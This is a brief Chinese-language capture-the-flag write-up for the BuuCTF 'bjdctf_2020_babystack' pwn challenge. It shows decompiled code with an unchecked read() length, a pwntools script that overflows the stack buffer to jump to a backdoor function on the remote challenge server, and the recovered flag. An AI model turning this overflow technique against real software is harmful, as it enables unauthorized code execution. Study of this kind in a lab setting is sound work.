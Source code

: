 ```yaml
---
tags:
  - BuuCTF
  - 新手
---
```


# bjdctf_2020_babystack

## 前置工作

下载附件，用 IDA 64 打开，看到如下伪代码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[12]; // [rsp+0h] [rbp-10h] BYREF
  size_t nbytes; // [rsp+Ch] [rbp-4h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  LODWORD(nbytes) = 0;
  puts("**********************************");
  puts("*     Welcome to the BJDCTF!     *");
  puts("* And Welcome to the bin world!  *");
  puts("*  Let's try to pwn the world!   *");
  puts("* Please told me u answer loudly!*");
  puts("[+]Are u ready?");
  puts("[+]Please input the length of your name:");
  __isoc99_scanf("%d", &nbytes);
  puts("[+]What's u name?");
  read(0, buf, (unsigned int)nbytes);
  return 0;
}
```

发现危险函数 `read(0, buf, (unsigned int)nbytes)`，老脚本稍微改改就能用

## 编写 Exp

```python
from pwn import *

r = remote("node4.buuoj.cn", 29597)
backdoor_addr = 0x4006E6
r.sendline(b"9"*abs(0xC-0X4))
payload = b"A" * (0x10-0x0) + b"B" * 0x8 + pack(backdoor_addr, 64)
r.sendline(payload)
r.interactive()
```

最后得出 Flag 为 `flag{871bf3da-37db-4026-a43b-4dff76f2a8fd}`